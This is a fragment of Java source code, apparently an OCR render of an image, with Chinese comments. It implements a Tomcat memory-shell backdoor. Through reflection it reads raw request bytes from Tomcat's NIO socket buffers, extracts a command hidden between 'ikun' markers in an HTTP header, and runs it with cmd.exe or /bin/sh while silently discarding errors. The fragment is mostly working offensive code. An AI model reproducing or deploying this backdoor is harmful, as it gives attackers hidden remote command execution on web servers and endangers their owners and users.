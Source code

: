```plain
                if (!cmd.equals("")){
                    String[] cmds = System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next().getBytes();
                    // 暂时无法回显
                    // getResponse(result);
                }
            } catch (Exception e) {
//                e.printStackTrace();
            }

            return super.getClientCertProvider();
        }

        // 从 socket 中获取参数
        // 位置 Thread.getThreads()[15].target.this$0.pollers[0].selector.channelArray[1].attachment.socket.appReadBufHandler.byteBuffer.hb
        public String getRequest() {
            // 获取当前线程的所有线程
            Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
            for (Thread thread : threads) {
                try {
                    // 需要获取线程的特征包含Acceptor
                    if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                        Object[] nioEndpointPollerArrays = (Object[]) getField(getField(getField(thread,"target"),"this$0"),"pollers");
                        for (Object nioEndpointPollerArray : nioEndpointPollerArrays){
                            Object[] channelArrays = (Object[]) getField(getField(nioEndpointPollerArray,"selector"),"channelArray");
                            for (Object obj : channelArrays){
                                if (obj != null){
                                    byte[] bytes = (byte[]) getField(getField(getField(getField(getField(obj,"attachment"),"socket"),"appReadBufHandler"),"byteBuffer"),"hb");
                                    String cmd = new String(bytes);
                                    return cmd;
                                }
                            }
                        }
                    }
                } catch (Exception e) {
                    continue;
                }
            }
            return "";
        }

        // 解析字符串获取 cmd 字符串
        public String getCmd(String str){
            // HTTP 报文头中需要添加例如，cmd: ikuncalcikun，意为命令执行启动计算器
            String cmd = str.substring(str.indexOf("ikun")+4 , str.lastIndexOf("ikun"));
            return cmd;
        }
    }
```
